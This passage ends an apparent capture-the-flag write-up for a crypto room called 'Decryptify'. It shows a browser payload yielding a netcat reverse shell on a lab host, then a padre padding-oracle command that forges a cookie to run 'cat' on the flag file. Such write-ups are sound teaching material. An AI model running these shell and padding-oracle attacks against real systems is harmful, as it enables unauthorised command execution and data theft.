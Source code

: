 Now add the `date` payload to your browser to execute it:

![](/assets/blog/Decryptify/run.png)

You should receive a reverse shell instantly:

```
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.14.78.229] from (UNKNOWN) [10.10.227.78] 34980
$ ls
ls
 S   'So'$'\373'   css		   footer.php   index.php   logs
 So   api.php	   dashboard.php   header.php   js
$ cd /home/ubuntu
cd /home/ubuntu
$ ls
ls
flag.txt  node_modules	package-lock.json  test.sh
$ wc flag.txt
wc flag.txt
 1  1 30 flag.txt
```

You can also use [`padre`](https://github.com/glebarez/padre) for this part, which takes just about <10% of the time. You can use this command to simply print the flag:

```terminal
./padre -cookie 'PHPSESSID=bd7c749uptsjuckms0h4m5fko8; role=d057af5933d8acebfe290fe2bbd540e08a2a81a22eff55969a89a7dbe84fb98cd6cbda066ed79220eba70afb9b3d4e0d' -u 'http://10.10.163.207:1337/dashboard.php?date=$' -enc "cat /home/ubuntu/flag.txt"
```

I really liked this Crypto room.